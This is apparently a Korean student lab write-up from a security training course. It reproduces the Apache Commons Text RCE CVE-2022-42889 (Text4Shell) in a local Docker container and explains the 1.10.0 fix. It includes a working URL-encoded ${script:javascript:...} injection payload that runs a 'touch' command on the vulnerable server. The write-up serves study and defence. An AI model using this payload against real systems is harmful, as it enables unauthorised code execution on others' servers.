


# CVE-2022-42889
> 화이트햇 스쿨 3기 - 김동환

<br/>

### 요약

- CVE-2022-42889는 Apache Commons Text 라이브러리(1.5 ~ 1.9 버전)에서 발견된 원격 코드 실행(RCE) 취약점입니다.

- 특정 버전의 Commons Text는 문자열 변수 치환(StringSubstitutor) 시 기본값으로 포함된 특정 조회(lookup) 기능(예: script, dns, url)을 통해 외부 입력값을 처리합니다.
- 이 중 script 조회 기능 등은 외부에서 제공된, 신뢰할 수 없는 스크립트나 데이터를 처리하여 실행할 수 있으므로, 공격자는 조작된 문자열(예: ${script:javascript:...})을 입력값으로 전달하여 서버에서 임의의 코드를 실행시킬 수 있습니다.
- 따라서 악의적인 공격자는 취약한 라이브러리를 사용하는 애플리케이션에 특수하게 조작된 입력값을 전송함으로써, 해당 서버의 제어권을 획득하거나 추가 공격을 수행할 수 있습니다.

<br>

---

<br>

### 환경 구성 및 실행 (MAC OS)
<br>

1. 명령어 실행


```
$ brew install maven
$ git clone https://github.com/karthikuj/cve-2022-42889-text4shell-docker
$ cd cve-2022-42889-text4shell-docker
$ mvn clean install
$ docker build --tag=text4shell .
$ docker run -p 8080:8080 text4shell
```

<br>

2. 취약 서버 구동



<br>

3. 서버 구동 후 정상 접근 확인


<br>

4. 피해 시스템 / tmp 파일 내용 확인
```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```


<br>

5. 파라미터 값 조작 후 Exploit 진행
```
http://localhost:8080/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27touch%20%2Ftmp%2Fexploit%27)%7D
```


> search 파라미터에 **${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}** 을 URL로 한번 인코딩 후 Exploit 진행


<br/>


### 결과


```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```

> exploit 파일 생성 확인

<br/>

### 정리

CVE-2022-42889는 Apache Commons Text 1.5~1.9 버전의 문자열 보간 기능에서 ${script:javascript:...} 형태의 입력을 통해 서버에서 임의 명령어가 실행되는 원격 코드 실행 취약점으로, 1.10.0 버전에서 해당 기능이 비활성화되며 해결되었고, 입력값 검증 부재로 인한 치명적 보안 리스크를 보여준다.